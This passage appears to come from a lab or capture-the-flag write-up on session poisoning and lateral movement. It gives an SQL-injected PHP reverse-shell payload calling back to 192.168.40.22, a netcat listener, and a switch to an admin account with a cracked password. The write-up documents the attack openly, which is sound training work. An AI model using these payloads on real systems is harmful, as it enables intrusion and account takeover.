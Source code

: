 ### Session Poisoning

**Malicious SQL Query**:

```sql
SELECT '<?php system("bash -i &>/dev/tcp/192.168.40.22/443 <&1"); ?>';
```

**Listener Setup**:

```bash
sudo nc -nlvp 443
```

**Execution**: Reload the session file URL to trigger the payload.

![Reverse Shell](images/Pasted%20image%2020251012151607.png)

**Result**: Reverse shell obtained as `apache` user.

## Lateral Movement

### User Authentication

Using previously cracked credentials:

```bash
su admin
# Password: Stella
```

![User Access](images/Pasted%20image%2020251012153205.png)
